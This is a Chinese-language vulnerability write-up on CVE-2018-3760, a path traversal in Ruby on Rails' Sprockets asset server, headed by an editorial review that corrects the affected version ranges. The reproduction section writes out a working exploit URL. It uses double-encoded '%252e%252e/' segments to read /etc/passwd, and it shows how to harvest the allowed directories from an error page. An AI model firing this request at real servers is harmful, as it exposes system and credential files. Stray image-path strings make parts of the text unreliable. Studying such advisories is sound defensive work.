


## 核对与使用边界

- 回源确认：Sprockets 官方安全邮件给 3.x 受影响至 3.7.1、首修复 3.7.2；2.x 至 2.12.4/首修复 2.12.5；4.0 beta 至 beta7/首修复 beta8。需要实际使用受影响 Sprockets 服务的配置；不能按 Rails 总版本直接判定。

核对来源：[Sprockets 官方安全邮件](https://groups.google.com/g/rubyonrails-security/c/ft_J--l55fM/m/7roDfQ50BwAJ)

- 明确更正：本文上下文将 Sprockets 3.7.1 包含在受影响范围，不能把它同时作为安全下限。维护分支需分别记录，不能把 2.x、3.x、4.x beta 的边界连写成一个范围；准确首修复以官方公告核对。
- 现有读取 /etc/passwd 的演示支持文件读取能力，不能据此认定任意文件均可执行；执行还需处理器、文件类型、应用配置或另一个写入/执行入口。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=4.0.0.beta7、&lt;=3.7.1、&lt;=2.12.4连写，需各修复分支核验

代码与实验材料：两步获取allowed path和双编码遍历，独立补server.rb说明但没实际源码

来源证据范围：无原出处

- **操作与副作用边界（1）**：影响与修复表不清；依据：三范围连写、无修复版本；读取或执行任意文件未给执行链。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（2）**：资源污染和旧目标域名；依据：每图后重复资源字符串，www.0-sec.org应占位。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-3760）Ruby On Rails 任意文件读取漏洞
===============================================

一、漏洞简介
------------

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On
Rails是著名的Ruby
Web开发框架，Sprockets是编译及存储静态资源文件的Ruby库。

在3.7.1及之前的版本中，存在一处因为二次解码导致的路径穿越中断，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

二、漏洞影响
------------

4.0.0.beta7及更低版本3.7.1及更低版本2.12.4及更低版本

三、复现过程
------------

### 漏洞分析

漏洞原理问题出在`sprockets`，它用来检查 JavaScript
文件的相互依赖关系，用以优化网页中引入的js文件，以避免加载不必要的js文件。当访问如`http://www.0-sec.org:3000/assets/foo.js`时，会进入`server.rb`

### 漏洞浮现

直接访问`http://www.0-sec.org:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

RubyOnRails任意文件读取漏洞/media/rId26.png)

我们通过报错页面，可获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层替换，最后读取`/etc/passwd`：

    http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd

RubyOnRails任意文件读取漏洞/media/rId27.png)
